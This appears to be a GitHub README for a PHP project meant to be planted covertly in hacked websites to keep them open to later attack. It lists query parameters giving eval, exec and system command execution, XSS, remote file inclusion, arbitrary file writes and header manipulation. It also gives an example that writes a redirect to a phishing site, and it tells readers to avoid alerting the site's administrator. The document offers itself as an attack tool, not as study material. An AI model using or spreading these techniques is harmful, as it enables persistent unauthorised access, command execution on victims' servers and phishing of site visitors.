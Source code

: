 <div align="center">
# PHP Vulnerable Coders  [![Version](https://img.shields.io/badge/version-0.9-blue?style=flat-square)](https://github.com/ZechBron/PHP_VulnCdoe)

</div>

### Description:

This is a Vulnerable PHP Codes to put inside a file (but do not modify that file to avoid the admin discovering what you've done) for future attack.
Note that the only purpose of this code is to insert this shit in a file to make the site vulnerable for your future attack.

Note that this is not a shell or backdoor. This is just a vulnerable php codes that you can insert to the site you have hacked to make the sites vulnerable for future attack.

__Disadvatage__

Other hackers might find and exploit this but if you want though you can put this vulnerable code in a seperate file and just put a password so only you can access this.


### Queries and Parameters

+ XSS

   .php?zch-css=//your xss parameter here

+ Eval

   .php?zeval=//command here

+ Exec

   .php?zexec=//command here

+ System

   .php?zsys=//command here

   `Note: You don't have to type system() here. Just type the commands and that's all. For Example: .php?zsys=uname%20-a

+ File Inclusions

   .php?zfile=//remote or local file here

+ Create and Write a File

   .php?zfilename=filename-of-your-choice&&zcontent=file-content

   ```
   Example:
   I want to write a php file in a site but that site has no shell yet.
   The filename I want is redir.php and the content I want is this: <?php header("LOcation: " . "https://my-phishing-sites.com");

   So I will put these in the address bar:

   .php?zfilename=redir.php&&zcontent=<?php header("Location: " . "https://my-phishing-site.com");


   Everything depends on you.

+ Header Hacking and Manipulating

   .php?zheader=//Your Header Content Here
